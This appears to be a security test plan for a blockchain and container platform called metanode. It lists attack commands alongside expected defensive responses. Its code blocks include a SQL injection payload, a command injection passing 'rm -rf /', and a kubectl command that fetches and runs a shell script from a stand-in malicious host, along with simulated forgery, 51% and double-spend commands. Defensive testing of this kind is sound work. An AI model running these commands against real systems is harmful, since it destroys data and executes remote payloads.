 **Expected Response**:
- DockLock should prevent all escape attempts
- Cryptographic isolation should remain intact
- BISO agreements should log and alert on attempts

#### **2.2 Code Injection & RCE**
```bash
# SQL injection attempts
curl -X POST "https://saas-1.metanode.local/api/users" \
  -d "username=admin'; DROP TABLE users; --"

# Command injection
curl "https://saas-2.metanode.local/api/exec?cmd=rm+-rf+/"

# Container RCE attempts
kubectl exec -it malicious-pod -- /bin/bash -c "curl malicious-payload.com/shell.sh | bash"
```

**Expected Response**:
- Traffic Light agreements should block suspicious payloads
- SaaS applications should sanitize all inputs
- ENC clusters should isolate compromised workloads

#### **2.3 Cryptographic Attacks**
```bash
# Attempt to forge receipts
metanode receipt forge --target bpi-1 --fake-signature
metanode receipt replay --old-receipt receipt-123.json

# BLS signature attacks
metanode crypto attack --type bls-forgery --target consensus-layer
metanode crypto attack --type key-recovery --target wallet-system
```

**Expected Response**:
- All cryptographic operations should remain secure
- Receipt validation should detect forgeries
- BLS aggregation should maintain integrity

### **Category 3: Consensus & Blockchain Attacks**

#### **3.1 51% Attack Simulation**
```bash
# Attempt to control majority of BPI nodes
metanode bpi spawn --malicious --count 10 --target-network parachain
metanode consensus attack --type majority --duration 1h
```

**Expected Response**:
- Parachain consensus should resist majority attacks
- BPCI should detect consensus anomalies
- Automatic network protection mechanisms

#### **3.2 Double Spending & Transaction Attacks**
```bash
# Attempt double spending
metanode transaction create --amount 1000 --recipient addr1 --broadcast-delay 5s
metanode transaction create --amount 1000 --recipient addr2 --same-inputs

# Transaction flooding
for i in {1..10000}; do
  metanode transaction spam --small-amount --target mempool
done
```
